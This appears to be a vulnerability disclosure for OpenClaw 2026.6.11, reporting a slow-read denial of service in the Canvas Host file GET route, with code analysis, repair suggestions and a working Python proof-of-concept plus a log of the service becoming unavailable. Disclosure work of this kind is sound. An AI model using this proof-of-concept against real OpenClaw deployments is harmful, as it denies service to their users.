


## OpenClaw has a denial of service vulnerability in the Canvas Host file GET interface

## supplier

https://github.com/openclaw/openclaw

## affected version

OpenClaw 2026.6.11

npm package:

```text
openclaw@2026.6.11
```

## Vulnerability file

```text
dist/extensions/canvas/index.js
dist/server-CjTCGFpK.js
```

## describe

OpenClaw has a denial of service vulnerability in the Canvas Host file GET interface.

The vulnerable interface is:

```text
GET /__openclaw__/canvas/<file>
```

The Canvas plugin registers the Canvas Host route and serves files under the Canvas root directory. When a file is requested, the Canvas Host implementation reads the whole file into memory with `handle.readFile()` and then sends the buffer with `res.end(data)`.

There is no effective file-size limit, streaming response, request concurrency limit, or slow-client protection on this path. An attacker who can access the Canvas Host route and request a large Canvas-hosted file can open multiple GET connections and stop reading the response. This causes large response buffers to stay in the Node.js process and can make normal service endpoints unavailable.

## code analysis

The Canvas extension registers the Canvas Host route as an HTTP prefix route.

```javascript
api.registerHttpRoute({
  path: CANVAS_HOST_PATH,
  auth: "plugin",
  match: "prefix",
  nodeCapability,
  handler: handleHttpRequest
});
```

The file serving code reads the entire requested file into memory before responding.

```javascript
const { handle, realPath } = opened;
let data;
try {
  data = await handle.readFile();
} finally {
  await handle.close().catch(() => {});
}
...
res.setHeader("Content-Type", mime);
res.end(data);
```

Vulnerability point:



## POC

The following script opens multiple GET connections to a large Canvas-hosted file and intentionally does not read the response body:

```python
import socket
import sys
import time
import urllib.parse

target = sys.argv[1].rstrip("/")
path = sys.argv[2]
concurrency = int(sys.argv[3])

parsed = urllib.parse.urlparse(target)

for i in range(1, concurrency + 1):
    sock = socket.create_connection((parsed.hostname, parsed.port), timeout=10)
    sock.sendall((
        f"GET {path}?slow={i} HTTP/1.1\r\n"
        f"Host: {parsed.hostname}\r\n"
        "Connection: keep-alive\r\n\r\n"
    ).encode())
    print(f"slow_client={i} connected request_sent read_paused=True")
    time.sleep(0.03)

time.sleep(90)
```

Full script is provided in `poc_canvas_big_get_dos.py`.

Run:

```bash
python3 poc_canvas_big_get_dos.py http://target:19089 /__openclaw__/canvas/big.bin 32 90 http://target:19089/healthz
```

The service became unavailable during the attack:

```text
C:\Users\guopeng\Documents\7\openclaw-canvas-dos-lab\reports\OpenClaw_Canvas_Big_GET_DoS_Report>
python poc_canvas_big_get_dos.py http://127.0.0.1:19089 /__openclaw__/canvas/big.bin 32 45 http://127.0.0.1:19089/healthz
[2026-07-07 13:58:35] attack_start endpoint=http://127.0.0.1:19089/__openclaw__/canvas/big.bin mode=slow_read concurrency=32 hold_seconds=45
[2026-07-07 13:58:36] slow_client=32 connected request_sent read_paused=True
[2026-07-07 13:58:49] health_check ok=False fail=1 detail=TimeoutError('timed out')
[2026-07-07 13:58:52] health_check ok=False fail=2 detail=TimeoutError('timed out')
[2026-07-07 13:58:56] health_check ok=False fail=3 detail=TimeoutError('timed out')
[2026-07-07 13:58:56] RESULT=UNAVAILABLE
```

Reproduction screenshot:



## impact

Attackers with access to the Canvas Host route can make the OpenClaw service unavailable by requesting a large Canvas-hosted file through multiple slow GET connections. This affects other users sharing the same OpenClaw process because memory and event-loop capacity are consumed by the Canvas Host response path.

## repair suggestion

1. Replace `handle.readFile()` with streaming file responses.
2. Enforce a strict maximum file size for Canvas Host responses.
3. Reject or range-limit oversized files before opening response buffers.
4. Add per-client and global concurrency limits for Canvas Host file requests.
5. Add slow-client write timeouts and abort stalled responses.
6. Keep Canvas Host file serving isolated from core service endpoints.
